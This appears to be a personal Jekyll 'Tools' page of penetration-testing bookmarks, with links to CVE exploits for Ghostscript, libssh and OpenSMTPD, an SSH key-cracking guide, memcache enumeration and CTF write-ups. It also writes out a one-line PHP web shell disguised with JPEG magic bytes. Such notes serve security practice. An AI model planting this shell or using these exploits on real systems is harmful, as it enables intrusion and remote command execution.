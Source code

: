 ```yaml
---
layout: page
title: Tools
subtitle: From the pexels folder
permalink: /Tools/
#gallery_path: "assets/img/pexels"
tags: [Page]
---
```



# BASE CVE

CVE-2019-14813 [ghost_script](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

CVE-2018-10993  [Libssh 0.8.1](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)

# Brute Force Tools

Ssh2john [Ssh2john](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810)

# Applictions

Tmux [Tmux](https://man7.org/linux/man-pages/man1/tmux.1.html)

OpenSMTPD 6.4.0 < 6.6.1  [OpenSMTPD](https://www.exploit-db.com/exploits/48051)

PHP file as image  >  **echo '\xff\xd8<?=`{$_GET["cmd"]}`;' > exec.php** 

Magic byts [Magic byts](https://en.wikipedia.org/wiki/List_of_file_signatures)


# Web Applictions

Node.js Express framework [Node.js Express framework](https://haboob.sa/ctf/nullcon-2019/blog.html)

Memcache Enumartion [Memcache](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

mPDF and PHP [mPDF](https://github.com/mpdf/mpdf/issues/356#issue-216032258)


